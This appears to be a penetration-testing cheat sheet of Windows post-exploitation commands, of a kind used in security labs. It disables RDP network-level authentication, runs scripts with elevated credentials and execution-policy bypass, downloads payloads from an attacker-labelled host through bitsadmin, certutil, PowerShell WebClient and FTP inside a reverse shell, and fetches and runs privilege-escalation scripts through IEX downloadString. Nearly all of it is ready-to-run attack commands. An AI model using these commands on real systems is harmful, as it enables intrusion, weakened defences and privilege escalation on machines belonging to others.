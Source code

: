 ```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

### Powershell sudo for Windows

```
$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force
$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw
$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'

powershell -ExecutionPolicy Bypass -File xyz.ps1
```

### Windows download with bitsadmin

```
bitsadmin /transfer mydownloadjob /download /priority normal http://<attacker10.11.1.111>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```

### Windows download with certutil.exe

```
certutil.exe -urlcache -split -f "http://10.11.1.111/Powerless.bat" Powerless.bat
```

### Windows download with powershell

````
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.1.111/file.exe','C:\Users\user\Desktop\file.exe')"

(New-Object System.Net.WebClient).DownloadFile("http://10.11.1.111/CLSID.list","C:\Users\Public\CLSID.list")
````

### PowerShell Priv Esc

```
powershell IEX (New-Object Net.WebClient).downloadString('https://192.168.49.221/jaws-enum.ps1')
powershell Invoke-AllChecks

powershell IEX (New-Object Net.WebClient).downloadString('https://192.168.49.221/Jaws.ps1')
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename EnumOutput.txt
```

### Windows Download from FTP

```
# In reverse shell
echo open 10.11.1.111 > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
ftp -v -n -s:ftp.txt
```
